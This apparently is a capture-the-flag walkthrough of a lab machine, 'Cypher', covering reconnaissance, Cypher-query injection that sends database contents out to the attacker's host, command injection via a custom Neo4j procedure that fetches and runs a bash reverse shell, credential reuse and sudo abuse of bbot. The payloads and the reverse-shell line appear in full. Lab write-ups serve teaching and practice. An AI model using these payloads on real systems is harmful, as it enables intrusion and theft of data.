




# Cypher

<figure><figcaption></figcaption></figure>

***

## Reconnaissance


```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.129.111.76 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-04 15:52 CET
Initiating SYN Stealth Scan at 15:52
Scanning 10.129.111.76 [65535 ports]
Discovered open port 80/tcp on 10.129.111.76
Discovered open port 22/tcp on 10.129.111.76
Completed SYN Stealth Scan at 15:52, 22.14s elapsed (65535 total ports)
Nmap scan report for 10.129.111.76
Host is up, received user-set (0.085s latency).
Scanned at 2025-03-04 15:52:02 CET for 22s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 22.26 seconds
           Raw packets sent: 66391 (2.921MB) | Rcvd: 66402 (2.657MB)
```


```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.129.111.76
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```


```bash
❯ nmap -sCV -p22,80 10.129.111.76 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-04 15:54 CET
Nmap scan report for 10.129.111.76
Host is up (0.12s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
|_  256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cypher.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   197.41 ms 10.10.16.1
2   91.40 ms  10.129.111.76

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.04 seconds
```


```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


<figure><figcaption></figcaption></figure>


```bash
❯ whatweb -a 3 http://cypher.htb
http://cypher.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.129.111.76], JQuery[3.6.1], Script, Title[GRAPH ASM], nginx[1.24.0]
```




<figure><figcaption></figcaption></figure>



<figure><figcaption></figcaption></figure>



<figure><figcaption></figcaption></figure>




```bash
❯ feroxbuster -u http://cypher.htb -t 200 -C 500,502,404
                                                                                                                                                                                                                                      
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://cypher.htb
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 💢  Status Code Filters   │ [500, 502, 404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        7l       12w      162c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      179l      477w     4986c http://cypher.htb/about
307      GET        0l        0w        0c http://cypher.htb/api => http://cypher.htb/api/docs
200      GET       63l      139w     1548c http://cypher.htb/utils.js
200      GET      126l      274w     3671c http://cypher.htb/login
200      GET      162l      360w     4562c http://cypher.htb/index
405      GET        1l        3w       31c http://cypher.htb/api/auth
307      GET        0l        0w        0c http://cypher.htb/api/ => http://cypher.htb/api/api
301      GET        7l       12w      178c http://cypher.htb/testing => http://cypher.htb/testing/
307      GET        0l        0w        0c http://cypher.htb/demo => http://cypher.htb/login
200      GET        7l     1223w    80496c http://cypher.htb/bootstrap.bundle.min.js
200      GET        2l     1293w    89664c http://cypher.htb/jquery-3.6.1.min.js
200      GET       17l      139w     9977c http://cypher.htb/testing/custom-apoc-extension-1.0-SNAPSHOT.jar
200      GET        3l      113w     8123c http://cypher.htb/bootstrap-notify.min.js
200      GET     7333l    24018w   208204c http://cypher.htb/vivagraph.min.js
200      GET      876l     4886w   373109c http://cypher.htb/logo.png
200      GET       12l     2173w   195855c http://cypher.htb/bootstrap.min.css
200      GET      162l      360w     4562c http://cypher.htb/
200      GET     5632l    33572w  2776750c http://cypher.htb/us.png
[####################] - 17s    30019/30019   0s      found:18      errors:0      
[####################] - 16s    30000/30000   1878/s  http://cypher.htb/ 
[####################] - 1s     30000/30000   57915/s http://cypher.htb/testing/ => Directory listing (add --scan-dir-listings to scan)  
```


```bash
❯ gobuster dir -u http://cypher.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -b 503,404
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cypher.htb/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   503,404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/about                (Status: 200) [Size: 4986]
/login                (Status: 200) [Size: 3671]
/demo                 (Status: 307) [Size: 0] [--> /login]
/api                  (Status: 307) [Size: 0] [--> /api/docs]
/testing              (Status: 301) [Size: 178] [--> http://cypher.htb/testing/]
Progress: 220546 / 220547 (100.00%)
===============================================================
Finished
===============================================================
```


```bash
❯ curl -s 'http://cypher.htb/testing/' | html2text
****** Index of /testing/ ******
===============================================================================
../
custom-apoc-extension-1.0-SNAPSHOT.jar             17-Feb-2025 11:49
6556
===============================================================================
```


```bash
❯ wget http://cypher.htb/testing/custom-apoc-extension-1.0-SNAPSHOT.jar
--2025-03-04 16:14:10--  http://cypher.htb/testing/custom-apoc-extension-1.0-SNAPSHOT.jar
Resolviendo cypher.htb (cypher.htb)... 10.129.111.76
Conectando con cypher.htb (cypher.htb)[10.129.111.76]:80... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 6556 (6,4K) [application/java-archive]
Grabando a: «custom-apoc-extension-1.0-SNAPSHOT.jar»

custom-apoc-extension-1.0-SNAPSHOT.jar                    100%[===================================================================================================================================>]   6,40K  --.-KB/s    en 0,05s   

2025-03-04 16:14:11 (126 KB/s) - «custom-apoc-extension-1.0-SNAPSHOT.jar» guardado [6556/6556]
```


<figure><figcaption></figcaption></figure>



```java
@Procedure(name = "custom.getUrlStatusCode", mode = Mode.READ)
    @Description("Returns the HTTP status code for the given URL as a string")
    public Stream<StringOutput> getUrlStatusCode(@Name("url") String url) throws Exception {
        if (!url.toLowerCase().startsWith("http://") && !url.toLowerCase().startsWith("https://")) {
            url = "https://" + url;
        }
        String[] command = {"/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url};
        System.out.println("Command: " + Arrays.toString(command));
        Process process = Runtime.getRuntime().exec(command);
```



<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


'

<figure><figcaption></figcaption></figure>











```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


```cypher
' RETURN 0 as _0 UNION CALL db.labels() yield label LOAD CSV FROM 'http://10.10.16.37/?l='+label as l RETURN 0 as _0 //
```

<figure><figcaption></figcaption></figure>


```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.111.76 - - [04/Mar/2025 17:00:51] "GET /?l=USER HTTP/1.1" 200 -
10.129.111.76 - - [04/Mar/2025 17:00:51] "GET /?l=HASH HTTP/1.1" 200 -
10.129.111.76 - - [04/Mar/2025 17:00:52] "GET /?l=DNS_NAME HTTP/1.1" 200 -
10.129.111.76 - - [04/Mar/2025 17:00:52] "GET /?l=SHA1 HTTP/1.1" 200 -
10.129.111.76 - - [04/Mar/2025 17:00:53] "GET /?l=SCAN HTTP/1.1" 200 -
10.129.111.76 - - [04/Mar/2025 17:00:53] "GET /?l=ORG_STUB HTTP/1.1" 200 -
10.129.111.76 - - [04/Mar/2025 17:00:54] "GET /?l=IP_ADDRESS HTTP/1.1" 200 -
```


```cypher
' OR 1=1 WITH 1 as a MATCH (f:USER) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.16.37/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //"
```

<figure><figcaption></figcaption></figure>


```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.111.76 - - [04/Mar/2025 17:08:47] "GET /?name=graphasm HTTP/1.1" 200 -
```


```cypher
' OR 1=1 WITH 1 as a MATCH (f:SHA1) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.16.37/?' + p +'='+toString(coalesce(f[p], 'NULL')) as l RETURN 0 as _0 //
```

<figure><figcaption></figcaption></figure>


```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.111.76 - - [04/Mar/2025 17:22:55] "GET /?value=9f54ca4c130be6d529a56dee59dc2b2090e43acf HTTP/1.1" 200 -
```


```bash
❯ echo '9f54ca4c130be6d529a56dee59dc2b2090e43acf' > hashes
❯ hashid '9f54ca4c130be6d529a56dee59dc2b2090e43acf'
Analyzing '9f54ca4c130be6d529a56dee59dc2b2090e43acf'
[+] SHA-1 
[+] Double SHA-1 
[+] RIPEMD-160 
[+] Haval-160 
[+] Tiger-160 
[+] HAS-160 
[+] LinkedIn 
[+] Skein-256(160) 
[+] Skein-512(160) 
❯ hashcat -a 0 -m 100 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5890 MB (1024 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 2 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344389
* Bytes.....: 139921571
* Keyspace..: 14344389

Cracking performance lower than expected?                 

* Append -O to the commandline.
  This lowers the maximum supported password/salt length (usually down to 32).

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

Approaching final keyspace - workload adjusted.           

Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 100 (SHA1)
Hash.Target......: 9f54ca4c130be6d529a56dee59dc2b2090e43acf
Time.Started.....: Tue Mar  4 17:43:39 2025 (5 secs)
Time.Estimated...: Tue Mar  4 17:43:44 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2614.9 kH/s (0.37ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 14344389/14344389 (100.00%)
Rejected.........: 0/14344389 (0.00%)
Restore.Point....: 14344389/14344389 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: $HEX[206c6f73657239] -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#1..: Util: 40%

Started: Tue Mar  4 17:43:37 2025
Stopped: Tue Mar  4 17:43:46 2025
```


```java
@Procedure(name = "custom.getUrlStatusCode", mode = Mode.READ)
    @Description("Returns the HTTP status code for the given URL as a string")
    public Stream<StringOutput> getUrlStatusCode(@Name("url") String url) throws Exception {
        if (!url.toLowerCase().startsWith("http://") && !url.toLowerCase().startsWith("https://")) {
            url = "https://" + url;
        }
        String[] command = {"/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url};
        System.out.println("Command: " + Arrays.toString(command));
        Process process = Runtime.getRuntime().exec(command);
```


```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


```cypher
' return h.value as a UNION CALL custom.getUrlStatusCode(\"google.com;curl 10.10.16.37/gzzcoo;#\") YIELD statusCode AS a RETURN a;//
```

<figure><figcaption></figcaption></figure>


```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.111.76 - - [04/Mar/2025 17:52:17] code 404, message File not found
10.129.111.76 - - [04/Mar/2025 17:52:17] "GET /gzzcoo HTTP/1.1" 404 -
```


```bash
❯ echo '#!/bin/bash \n/bin/bash -c "bash -i >& /dev/tcp/10.10.16.37/443 0>&1"' > shell.sh
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```


```cypher
' return h.value as a UNION CALL custom.getUrlStatusCode(\"google.com;curl 10.10.16.37/shell.sh|bash;#\") YIELD statusCode AS a RETURN a;//
```

<figure><figcaption></figcaption></figure>


```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.37] from (UNKNOWN) [10.129.111.76] 33758
bash: cannot set terminal process group (1410): Inappropriate ioctl for device
bash: no job control in this shell
neo4j@cypher:/$ 
```


```bash
neo4j@cypher:/$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
neo4j@cypher:/$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
neo4j@cypher:/$ export TERM=xterm
neo4j@cypher:/$ export SHELL=bash
neo4j@cypher:/$ stty rows 46 columns 230
```


```bash
neo4j@cypher:/home/graphasm$ ls -l
total 8
-rw-r--r-- 1 graphasm graphasm 156 Feb 14 12:35 bbot_preset.yml
-rw-r----- 1 root     graphasm  33 Mar  4 13:55 user.txt
neo4j@cypher:/home/graphasm$ cat user.txt 
cat: user.txt: Permission denied
neo4j@cypher:/home/graphasm$ cat bbot_preset.yml 
targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK
```


```bash
❯ sshpass -p 'cU4btyib.20xtCMCXkBmerhK' ssh graphasm@10.129.111.76
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.8.0-53-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Tue Mar  4 04:59:32 PM UTC 2025

  System load:  0.1               Processes:             235
  Usage of /:   68.9% of 8.50GB   Users logged in:       0
  Memory usage: 27%               IPv4 address for eth0: 10.129.111.76
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Mar 4 16:59:33 2025 from 10.10.16.37
graphasm@cypher:~$ cat user.txt 
965debffcc8f3c5f356ebeb9876a2947
```


```bash
graphasm@cypher:~$ sudo -l
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```


```bash
graphasm@cypher:~$ /usr/local/bin/bbot -h
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot

usage: bbot [-h] [-t TARGET [TARGET ...]] [-w WHITELIST [WHITELIST ...]] [-b BLACKLIST [BLACKLIST ...]] [--strict-scope] [-p [PRESET ...]] [-c [CONFIG ...]] [-lp] [-m MODULE [MODULE ...]] [-l] [-lmo] [-em MODULE [MODULE ...]]
            [-f FLAG [FLAG ...]] [-lf] [-rf FLAG [FLAG ...]] [-ef FLAG [FLAG ...]] [--allow-deadly] [-n SCAN_NAME] [-v] [-d] [-s] [--force] [-y] [--dry-run] [--current-preset] [--current-preset-full] [-o DIR]
            [-om MODULE [MODULE ...]] [--json] [--brief] [--event-types EVENT_TYPES [EVENT_TYPES ...]] [--no-deps | --force-deps | --retry-deps | --ignore-failed-deps | --install-all-deps] [--version]
            [-H CUSTOM_HEADERS [CUSTOM_HEADERS ...]] [--custom-yara-rules CUSTOM_YARA_RULES]

Bighuge BLS OSINT Tool

options:
  -h, --help            show this help message and exit

Target:
  -t TARGET [TARGET ...], --targets TARGET [TARGET ...]
                        Targets to seed the scan
  -w WHITELIST [WHITELIST ...], --whitelist WHITELIST [WHITELIST ...]
                        What's considered in-scope (by default it's the same as --targets)
  -b BLACKLIST [BLACKLIST ...], --blacklist BLACKLIST [BLACKLIST ...]
                        Don't touch these things
  --strict-scope        Don't consider subdomains of target/whitelist to be in-scope

Presets:
  -p [PRESET ...], --preset [PRESET ...]
                        Enable BBOT preset(s)
  -c [CONFIG ...], --config [CONFIG ...]
                        Custom config options in key=value format: e.g. 'modules.shodan.api_key=1234'
  -lp, --list-presets   List available presets.

Modules:
  -m MODULE [MODULE ...], --modules MODULE [MODULE ...]
                        Modules to enable. Choices: baddns,portscan,ntlm,paramminer_headers,dnsbrute_mutations,chaos,pgp,credshed,azure_tenant,anubisdb,smuggler,dastardly,dnscaa,bypass403,trufflehog,generic_ssrf,badsecrets,viewdns,paramminer_getparams,code_repository,social,zoomeye,urlscan,dnscommonsrv,rapiddns,censys,asn,crt,c99,leakix,httpx,otx,hunt,postman_download,hackertarget,trickest,internetdb,bevigil,git_clone,gitlab,baddns_zone,dnsdumpster,hunterio,robots,wayback,emailformat,vhost,columbus,docker_pull,digitorus,bucket_azure,fullhunt,iis_shortnames,ipneighbor,bucket_amazon,git,filedownload,wpscan,dnsbrute,affiliates,baddns_direct,certspotter,dotnetnuke,ffuf,myssl,fingerprintx,newsletters,dockerhub,bucket_digitalocean,telerik,skymem,shodan_dns,unstructured,passivetotal,sitedossier,nuclei,github_workflows,securitytrails,postman,sslcert,url_manipulation,bucket_firebase,virustotal,wappalyzer,dehashed,ip2location,azure_realm,bucket_google,subdomaincenter,ajaxpro,binaryedge,host_header,github_org,paramminer_cookies,secretsdb,ipstack,builtwith,wafw00f,gowitness,oauth,securitytxt,github_codesearch,ffuf_shortnames,bucket_file_enum
  -l, --list-modules    List available modules.
  -lmo, --list-module-options
                        Show all module config options
  -em MODULE [MODULE ...], --exclude-modules MODULE [MODULE ...]
                        Exclude these modules.
  -f FLAG [FLAG ...], --flags FLAG [FLAG ...]
                        Enable modules by flag. Choices: web-screenshots,baddns,web-thorough,web-basic,iis-shortnames,email-enum,portscan,affiliates,active,web-paramminer,report,cloud-enum,deadly,passive,subdomain-enum,safe,slow,subdomain-hijack,code-enum,social-enum,aggressive,service-enum
  -lf, --list-flags     List available flags.
  -rf FLAG [FLAG ...], --require-flags FLAG [FLAG ...]
                        Only enable modules with these flags (e.g. -rf passive)
  -ef FLAG [FLAG ...], --exclude-flags FLAG [FLAG ...]
                        Disable modules with these flags. (e.g. -ef aggressive)
  --allow-deadly        Enable the use of highly aggressive modules

Scan:
  -n SCAN_NAME, --name SCAN_NAME
                        Name of scan (default: random)
  -v, --verbose         Be more verbose
  -d, --debug           Enable debugging
  -s, --silent          Be quiet
  --force               Run scan even in the case of condition violations or failed module setups
  -y, --yes             Skip scan confirmation prompt
  --dry-run             Abort before executing scan
  --current-preset      Show the current preset in YAML format
  --current-preset-full
                        Show the current preset in its full form, including defaults

Output:
  -o DIR, --output-dir DIR
                        Directory to output scan results
  -om MODULE [MODULE ...], --output-modules MODULE [MODULE ...]
                        Output module(s). Choices: discord,json,web_report,teams,http,stdout,txt,neo4j,csv,subdomains,splunk,asset_inventory,slack,python,websocket,emails
  --json, -j            Output scan data in JSON format
  --brief, -br          Output only the data itself
  --event-types EVENT_TYPES [EVENT_TYPES ...]
                        Choose which event types to display

Module dependencies:
  Control how modules install their dependencies

  --no-deps             Don't install module dependencies
  --force-deps          Force install all module dependencies
  --retry-deps          Try again to install failed module dependencies
  --ignore-failed-deps  Run modules even if they have failed dependencies
  --install-all-deps    Install dependencies for all modules

Misc:
  --version             show BBOT version and exit
  -H CUSTOM_HEADERS [CUSTOM_HEADERS ...], --custom-headers CUSTOM_HEADERS [CUSTOM_HEADERS ...]
                        List of custom headers as key value pairs (header=value).
  --custom-yara-rules CUSTOM_YARA_RULES, -cy CUSTOM_YARA_RULES
                        Add custom yara rules to excavate

EXAMPLES

    Subdomains:
        bbot -t evilcorp.com -p subdomain-enum

    Subdomains (passive only):
        bbot -t evilcorp.com -p subdomain-enum -rf passive

    Subdomains + port scan + web screenshots:
        bbot -t evilcorp.com -p subdomain-enum -m portscan gowitness -n my_scan -o .

    Subdomains + basic web scan:
        bbot -t evilcorp.com -p subdomain-enum web-basic

    Web spider:
        bbot -t www.evilcorp.com -p spider -c web.spider_distance=2 web.spider_depth=2

    Everything everywhere all at once:
        bbot -t evilcorp.com -p kitchen-sink

    List modules:
        bbot -l

    List presets:
        bbot -lp

    List flags:
        bbot -lf
```




```bash
graphasm@cypher:~$ sudo /usr/local/bin/bbot --custom-yara-rules /root/root.txt -d --dry-run
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot

[DBUG] Preset bbot_cli_main: Adding module "stdout" of type "output"
[DBUG] Preset bbot_cli_main: Adding module "json" of type "output"
[DBUG] Preset bbot_cli_main: Adding module "txt" of type "output"
[DBUG] Preset bbot_cli_main: Adding module "csv" of type "output"
[DBUG] Preset bbot_cli_main: Adding module "python" of type "output"
[DBUG] Preset bbot_cli_main: Adding module "aggregate" of type "internal"
[DBUG] Preset bbot_cli_main: Adding module "dnsresolve" of type "internal"
[DBUG] Preset bbot_cli_main: Adding module "cloudcheck" of type "internal"
[DBUG] Preset bbot_cli_main: Adding module "excavate" of type "internal"
[DBUG] Preset bbot_cli_main: Adding module "speculate" of type "internal"
[VERB] 
[VERB] ### MODULES ENABLED ###
[VERB] 
[VERB] +------------+----------+-----------------+-------------------------------+---------------+----------------------+--------------------+
[VERB] | Module     | Type     | Needs API Key   | Description                   | Flags         | Consumed Events      | Produced Events    |
[VERB] +============+==========+=================+===============================+===============+======================+====================+
[VERB] | csv        | output   | No              | Output to CSV                 |               | *                    |                    |
[VERB] +------------+----------+-----------------+-------------------------------+---------------+----------------------+--------------------+
[VERB] | json       | output   | No              | Output to Newline-Delimited   |               | *                    |                    |
[VERB] |            |          |                 | JSON (NDJSON)                 |               |                      |                    |
[VERB] +------------+----------+-----------------+-------------------------------+---------------+----------------------+--------------------+
[VERB] | python     | output   | No              | Output via Python API         |               | *                    |                    |
[VERB] +------------+----------+-----------------+-------------------------------+---------------+----------------------+--------------------+
[VERB] | stdout     | output   | No              | Output to text                |               | *                    |                    |
[VERB] +------------+----------+-----------------+-------------------------------+---------------+----------------------+--------------------+
[VERB] | txt        | output   | No              | Output to text                |               | *                    |                    |
